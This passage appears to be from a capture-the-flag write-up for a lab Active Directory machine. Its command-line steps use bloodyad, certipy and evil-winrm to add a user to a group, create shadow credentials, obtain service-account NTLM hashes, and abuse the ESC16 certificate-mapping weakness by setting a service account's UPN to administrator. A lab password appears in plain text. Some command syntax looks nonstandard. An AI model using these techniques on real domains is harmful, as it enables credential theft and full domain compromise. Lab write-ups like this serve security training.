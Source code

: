 The `pagula` user has `GenericWrite` on service accounts, allowing the modification of their properties, including the ability to generate "Shadow Credentials" (certificate-based authentication). This is done using `certipy`.

1.  **Add `pagula` to `Service Accounts` Group (if needed, due to potential cleanup scripts):**

    ```bash
    bloodyad add-group-member --user-dn pagula --group-dn "CN=Service Accounts,CN=Users,DC=fluffy,DC=htb" -u pagula -p 'PrometheusX303' --host 10.10.11.69 --domain fluffy.htb
    ```

      * Note: `bloodyad` commands are case-sensitive.

2.  **Generate Shadow Credential for `WinRM Service`:** This creates a certificate for the `WinRM service` account.

    ```bash
    certipy shadow -u pagula -p 'PrometheusX303' -target-user "WinRM Service" -ca "fluffy-DC01-CA" -dc-ip 10.10.11.69 -template User
    ```

    This command will output a NTLM hash for the `WinRM service` account. Store this hash.

3.  **Authenticate as `WinRM Service` (Optional, to get `user.txt`):**

    ```bash
    evil-winrm -i 10.10.11.69 -u 'WinRM Service' -H <NTLM_hash_of_WinRM_Service>
    ```

### Exploiting ADCS ESC16 (Certificate Authority Escalation)

This is the final privilege escalation step, targeting the Certificate Authority itself. ESC16 allows for weak certificate mapping due to a disabled security extension.

1.  **Find Vulnerable Certificates with `certipy`:**
    Use `certipy` with the `CA service` account's hash (obtained similarly to the `WinRM service` hash from `certipy shadow`).

    ```bash
    certipy find -u 'CA service' -hashes <NTLM_hash_of_CA_Service> -ca 'fluffy-DC01-CA' -dc-ip 10.10.11.69 --vulnerable
    ```

    The output will highlight ESC16 as a vulnerability, indicating that the security extension is disabled, making all certificates vulnerable.

2.  **Change `CA Service` UPN to `administrator`:**
    Modify the User Principal Name (UPN) of the `CA service` account to `administrator` using `bloodyad`. This leverages the `GenericWrite` privilege `pagula` has over service accounts.

    ```bash
    bloodyad set-user-property --identity 'CA Service' --property userprincipalname --value 'administrator@fluffy.htb' -u pagula -p 'PrometheusX303' --host 10.10.11.69 --domain fluffy.htb
    ```

      * **Important:** If `administrator@fluffy.htb` already exists as a UPN, try `administrator` without the domain, or another unique string that will be mapped to the `administrator` SID during certificate authentication due to the weak mapping.

